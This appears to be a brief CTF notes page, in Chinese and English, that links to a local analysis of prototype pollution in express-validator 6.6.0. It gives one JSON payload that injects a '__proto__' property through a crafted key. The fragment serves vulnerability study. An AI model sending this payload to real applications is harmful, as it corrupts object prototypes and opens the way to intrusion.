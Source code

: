 ## 文章

[express-validator 6.6.0 原型链污染分析](F:\LocalCTF\express-validator 6.6.0 原型链污染分析.html)

## Payload

```json
{"a": {"__proto__": {"test": "testvalue"}}, "a\"].__proto__[\"test": 222}
```

